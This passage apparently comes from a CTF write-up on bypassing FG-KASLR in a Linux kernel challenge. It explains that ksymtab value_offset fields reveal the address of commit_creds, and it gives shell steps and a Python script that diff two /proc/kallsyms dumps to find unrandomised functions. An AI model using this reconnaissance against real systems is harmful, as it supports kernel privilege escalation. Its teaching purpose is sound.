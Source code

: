 I found out that every kernel symbol has a structure below, in which value_offset actually stored offset between address of the symbol and specific function. So if we get value_offset of __ksymtab_commit_creds, we can add to it and get the real address of commit_creds!

```c
truct kernel_symbol {
	  int value_offset;
	  int name_offset;
	  int namespace_offset;
};
```

Now the first things is to find out exactly which functions are affected by fgkaslr. Redirecting the output into files, I stored all the address of kallsym twice and got two txts.

```bash
bash ./run.sh > ./kallsyms1.txt
cat /proc/kallsym

# second time
bash ./run.sh > ./kallsyms2.txt
cat /proc/kallsym 
```

Then I searched for kernel text base and wrote a simple script to list all the functions unaffected by fgkaslr

```python
f1 = open("kallsyms1.txt")
line = f1.readline()
dict1 = {}
kernel_base1=0xffffffff8ac00000 # first time
print("start read file kallsyms1\n")
while line :
    sp = line.strip().split(" ")
    if int(sp[0],16) >= kernel_base1:
        dict1[sp[2]]=int(sp[0],16)-kernel_base1
    line = f1.readline()
f1.close()

f2 = open("kallsyms2.txt")
line = f2.readline()
dict2 = {}
kernel_base2=0xffffffffb2c00000 # second time
print("start read file kallsyms2\n")
while line :
    sp = line.strip().split(" ")
    if int(sp[0],16) >= kernel_base2:
        dict2[sp[2]]=int(sp[0],16)-kernel_base2
    line = f2.readline()

f2.close()

dict3 = {}
for k in dict1:
    if dict1[k] == dict2[k]:
        dict3[k] = dict1[k]

print("store no fg_kaslr\n")
f3 = open("find_no_fgkaslr.txt",'w+')
for k in dict3:
    s = "%016x : %s\n"%(dict3[k],k)
    f3.write(s)
f3.close()
```
